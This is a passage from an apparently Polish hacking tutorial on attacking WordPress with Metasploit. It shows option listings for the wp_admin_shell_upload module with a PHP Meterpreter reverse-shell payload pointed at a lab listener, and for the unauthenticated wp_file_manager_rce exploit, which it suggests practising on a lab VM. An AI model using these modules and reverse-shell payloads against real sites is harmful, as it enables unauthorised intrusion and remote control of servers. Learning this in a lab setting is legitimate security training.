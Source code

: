 ```console

```

### Shell
Dosyć ciekawym eksploitem jest _wp_admin_shell_upload_. Za jego pomocą możemy wejść na konsolę. Niestety trzeba mieć uprawnienia administratora, po to żeby stworzyć jakiś plugin. Na końcu opiszę, jak czasami możemy sobie zwiększyć uprawnienia.
{: .text-justify}
```console
msf6 auxiliary(scanner/http/wordpress_scanner) > use unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.1.10      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```
### Eksploity

#### wp_file_manager_rce
Ostatnio dosyć popularnym eksploitem (2020-09) jest _WordPress File Manager Unauthenticated Remote Code Execution_. Jest również dostępny w **Metasploicie**. Możesz go przetestować na już wcześniej wspomnianej wirtualce [Vulny](https://kerszl.github.io/hacking/walkthrough/vulny/).
{: .text-justify}

```console
msf6 > use exploit/multi/http/wp_file_manager_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_file_manager_rce) > show options

Module options (exploit/multi/http/wp_file_manager_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMAND    upload           yes       elFinder commands used to exploit the vulnerability (Accepted: upload, mkfil
                                         e+put)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.1.159     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/
                                         Using-Metasploit
   RPORT      80               yes       The target port (TCP)
```